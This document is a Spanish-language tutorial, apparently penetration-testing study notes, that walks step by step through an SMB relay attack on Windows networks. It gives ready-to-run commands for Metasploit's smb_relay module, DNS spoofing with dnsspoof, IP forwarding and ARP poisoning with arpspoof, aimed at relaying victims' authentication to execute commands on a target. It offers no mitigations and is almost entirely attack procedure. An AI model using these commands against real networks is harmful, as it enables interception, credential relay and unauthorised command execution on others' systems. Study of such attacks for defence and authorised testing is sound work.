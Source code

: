 # Ataque de Retransmisión SMB (SMB Relay) con Metasploit

## ¿Qué es SMB Relay?

El ataque **SMB Relay** explota el hecho de que muchos clientes Windows aceptan respuestas SMB sin verificar correctamente la autenticidad del servidor.

**Objetivo:** interceptar solicitudes SMB de una víctima y redirigirlas (retransmitirlas) a otra máquina con el fin de autenticarse con privilegios del usuario víctima.

---

## 1. Iniciar el módulo SMB Relay en Metasploit

```bash
use exploit/windows/smb/smb_relay
```

### Configurar los parámetros:

```bash
set LHOST <IP-atacante>
set LPORT 445
set SHARE fake
set SERVHOST <IP-atacante>
set SMBHOST <IP-objetivo>
```

- `LHOST`: IP de tu máquina atacante.
- `LPORT`: Puerto donde escuchará el módulo, normalmente 445.
- `SHARE`: Nombre del recurso SMB falso (ej: `fake`).
- `SERVHOST`: IP local donde correrá el servidor SMB falso.
- `SMBHOST`: IP del equipo al que queremos retransmitir la autenticación.

---

## 2. Configurar redirección DNS falsa (suplantación de DNS)

### Ver tu interfaz de red:

```bash
ip a     # o ipconfig si estás en Windows
```

> Supongamos que tu interfaz es `eth1`.

### Crear entrada falsa en un archivo DNS:

```bash
echo "<IP-atacante> *.sportsfoo.com" > dns
```

---

## 3. Levantar el servidor DNS falso con dnsspoof

```bash
dnsspoof -i eth1 -f dns
```

- Redirige peticiones DNS para `*.sportsfoo.com` hacia tu IP.
- Intercepta las solicitudes de la víctima y las redirige hacia el atacante.

---

## 4. Activar IP forwarding para permitir que el tráfico fluya

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

---

## 5. Ataque de ARP Spoofing (envenenamiento ARP)

Suplantar las direcciones MAC para interceptar el tráfico entre víctima y objetivo:

```bash
arpspoof -i eth1 -t <IP-víctima> <IP-gateway>
arpspoof -i eth1 -t <IP-gateway> <IP-víctima>
```

> Este paso hace que el tráfico entre ambos pase por tu equipo (Man-in-the-Middle).

---

## 6. Lanzar el ataque SMB Relay

Una vez que el entorno está preparado:

```bash
exploit
```

> El módulo `smb_relay` capturará las autenticaciones SMB entrantes y las retransmitirá al objetivo (`SMBHOST`) para ejecutar comandos con la sesión autenticada de la víctima.

---

